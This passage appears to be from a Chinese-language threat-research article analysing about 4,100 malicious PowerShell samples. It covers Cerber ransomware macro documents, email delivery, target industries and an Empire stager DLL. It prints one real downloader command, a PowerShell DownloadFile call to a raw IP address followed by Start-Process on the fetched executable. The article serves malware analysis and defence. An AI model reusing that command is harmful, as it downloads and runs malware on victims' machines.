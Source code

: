 [![](./img/85746/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p5.ssl.qhimg.com/t01e91f718f161cb13a.png)

[![](./img/85746/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p5.ssl.qhimg.com/t01586890c32d705af3.png)

我们所分析的样本中，超过一半使用了“DownloadFile-StartProcess”技术或前文所述的shellcode注入技术。

**2.2 整体分布及统计**

我们在4,100个样本中发现了4中文件格式。如下表所示：

[![](./img/85746/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p2.ssl.qhimg.com/t017478d3a910bda090.png)

可知，EXE和DOC格式占了绝大部分。进一步后我们发现，77%的DOC文件（即1,326个样例）可以归到“Downloader DFSP”变种，该变种通过DownloadFile-StartProcess方法实现下载器功能，如以下代码所示：

```
(New-Object System.Net.WebClient).DownloadFile('http://94.102.53.238/~yahoo/csrsv.exe',"$env:APPDATAcsrsv.exe");Start-Process ("$env:APPDATAcsrsv.exe")
```

有1,159个DOC文件样本（占比87%）可以归到Cerber勒索软件变种中，这意味着存在一款生成恶意Word文档的模板工具，可以用来创建带有启动PowerShell功能的恶意宏文档。

投递DOC文档的主要渠道是使用SMTP/POP3协议，这与现今勒索软件使用电子邮件进行恶意Word文档投递的情况一致。

[![](./img/85746/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p5.ssl.qhimg.com/t0163d052d2e93b3967.png)

图1. 投递恶意PowerShell文档的渠道

图2描述了攻击目标的行业分布，其中高等教育、高科技、专业领域、律政行业及医疗保健方面的分布所差无几。

[![](./img/85746/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p1.ssl.qhimg.com/t010fff8b5f8361fea4.png)

图2. 检测到恶意PowerShell文档的行业分布

[![](./img/85746/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p0.ssl.qhimg.com/t01ee70b479677f4fbe.png)

图3. AutoFocus在过去12个月捕获的恶意Powershell文档样本数。

接下来让我们看一下EXE样本。在分类方面，这些样本基本都是恶意软件家族的变种，没有特别的地方。有趣的是，它们的攻击目标似乎倾向于高科技行业。

[![](./img/85746/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p4.ssl.qhimg.com/t015202477bbec4540e.png)

图4. 检测到恶意PowerShell可执行文件的行业分布

与DOC类别样本相比，其在时间上的分布更为均匀。

[![](./img/85746/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p3.ssl.qhimg.com/t01a362ae703c9d3439.png)

图5. AutoFocus在过去12个月捕获的恶意PowerShell可执行文件样本数

以上状况的一种可能性是两类样本的分发渠道不同。比如DOC样本主要是通过电子邮件附件进行分发投递，而EXE样本主要是通过Web浏览器进行投递。

在对具体命令分析前，我要说的最后一件事是我们所检测到的使用EncodedCommand技术的一个DLL文件。这个DLL文件不包含导出函数，通过DLLMain入口调用后，该DLL会启动一个PowerShell Empire stager，从网站下载一个经过异或处理的脚本，并使用PowerShell的Invoke-Expression cmdlet运行。该样本与2016年10月Symantec发布的一篇博文中描述的Odinaff恶意软件家族的有关。

<br>

**三、数据前期分析及统计**

开始分析base64编码数据前，我观察了每个进程的启动方式，这种分析方法可以了解与EncodedCommand配合使用的附加参数情况。

**3.1 EncodedCommand：（4,100个样本，占比100%）**

使用此参数向PowerShell传递base64编码字符串并运行。

